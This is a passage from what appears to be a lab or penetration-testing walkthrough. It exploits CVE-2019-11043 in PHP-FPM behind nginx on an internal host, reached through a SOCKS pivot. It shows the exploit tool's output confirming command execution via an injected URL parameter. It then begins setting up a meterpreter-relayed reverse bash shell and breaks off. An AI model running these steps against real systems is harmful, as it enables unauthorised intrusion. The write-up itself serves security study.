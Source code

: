 Selecting burp as our proxy we can now browse to the pki machine on port 80.

[![pki_web](/img/static/pki_web.png)](/img/static/pki_web.png)

Looking at the request in burp we see that it is running `PHP-FPM/7.1` on `nginx`.

[![burp_php_fpm](/img/static/burp_php_fpm.png)](/img/static/burp_php_fpm.png)

This comination might be vulnerable to [CVE-2019-11043](https://github.com/neex/phuip-fpizdam). To check for it we clone the github repository and build the go executable with `go build`. We also set the `http_proxy` environment variable in the current terminal window to proxy all the exploit traffic through socks.

```
$ export http_proxy="socks5://127.0.0.1:1080"
```

Running the exploit we see that it is indeed vulnerable, now we just need to get a reverse shell from the RCE.

```
$./phuip-fpizdam "http://192.168.254.3/index.php"
2021/06/20 09:04:37 Base status code is 200
2021/06/20 09:04:39 Status code 502 for qsl=1765, adding as a candidate
2021/06/20 09:04:40 The target is probably vulnerable. Possible QSLs: [1755 1760 1765]
2021/06/20 09:05:29 Attack params found: --qsl 1755 --pisos 39 --skip-detect
2021/06/20 09:05:29 Trying to set "session.auto_start=0"...
2021/06/20 09:05:31 Detect() returned attack params: --qsl 1755 --pisos 39 --skip-detect <-- REMEMBER THIS
2021/06/20 09:05:31 Performing attack using php.ini settings...
2021/06/20 09:05:31 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
2021/06/20 09:05:31 Trying to cleanup /tmp/a...
2021/06/20 09:02:54 Done!
```

Since this machine cannot directly reach us we have to set up a listener on the already compromised machine. As we already have a meterpreter running there, we can simply setup our listener via this meterpreter. We select the `cmd/unix/reverse_bash` payload which is the counterpart to the `/dev/tcp/` payload.
